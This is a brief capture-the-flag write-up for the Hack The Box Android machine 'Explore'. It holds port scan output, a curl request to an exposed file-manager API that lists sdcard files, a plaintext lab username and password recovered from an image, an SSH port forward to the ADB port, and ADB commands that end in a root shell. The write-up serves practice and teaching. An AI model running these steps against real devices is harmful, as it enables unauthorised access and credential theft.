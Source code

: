```yaml
---
title: Explore
description: Android adb OP
date: 05/01/2022
---
```


# Explore HTB

Let's enumarate the machine.

```text
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
42135/tcp open     unknown => web
46125/tcp open     unknown
59777/tcp open     unknown => web
```

I found this command/exploit and used it to enumerate the JSONAPI server.

```bash
curl -XPOST --header "Content-Type: application/json" --data "{\\"command\\":\\"listFiles\\"}" http://explore.htb:59777/sdcard/dcim
```

- http://explore.htb:59777/sdcard/user.txt

- http://explore.htb:59777/sdcard/dcim/creds.jpg

![](images/creds.png)

| user   | password            |
| ------ | ------------------- |
| kristi | Kr1sT!5h@Rp3xPl0r3! |

now let's portforward to access the port **5555** :

```bash
ssh -p 2222 -L 8888:localhost:5555 kristi@explore.htb
```

After that juste connect via ADB and voila you now have root access.

```bash
$ adb connect explore.htb:5555
$ adb shell
$ su
```

## Thanks for reading ;)
